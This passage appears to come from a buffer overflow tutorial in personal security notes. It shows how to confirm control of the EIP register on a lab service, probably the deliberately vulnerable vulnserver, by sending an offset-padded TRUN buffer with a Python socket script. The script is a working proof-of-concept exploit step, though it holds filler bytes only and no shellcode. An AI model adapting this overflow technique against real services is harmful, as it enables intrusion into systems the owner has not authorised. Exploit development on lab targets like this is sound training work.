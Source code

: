 ### Controlling the ESP

Now that we know that the offset to the EIP is 2003 bytes, we need to fill the stack with that many bytes. So if we send over 2003 bytes of junk data we end up at byte 2004. This should be the start of the EIP.

To verify that this is indeed the EIP we will fill byte 2004,2005,2006,2007 with B's. This should result in the EIP containing 4 B's (42424242 in hex).

We also add some extra junk to get an idea of how much space we have on the stack.

```python
#!/usr/bin/python

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003 

buff  = b""         # empty byte var
buff += b'A'*offset # junk
buff += b'B'*4      # EIP
buff += b'C'*256    # some more junk on stack after EIP which we want to eventually store our shellcode and jump to.
buff += b'D'*256    # this also gives us an idea of how much space we have on the stack.
buff += b'E'*128    # 
buff += b'F'*128    # 
buff += b'G'*64     # 
buff += b'H'*64     # 
buff += b'I'*32     # 
buff += b'J'*32     # 

print(buff)

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as err:
	print(f'[!] Unable to connect to the application.')
	sys.exit(0)
finally:
	s.close()

```

![overwritten_EIP](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_EIP_424242.png)

Success !
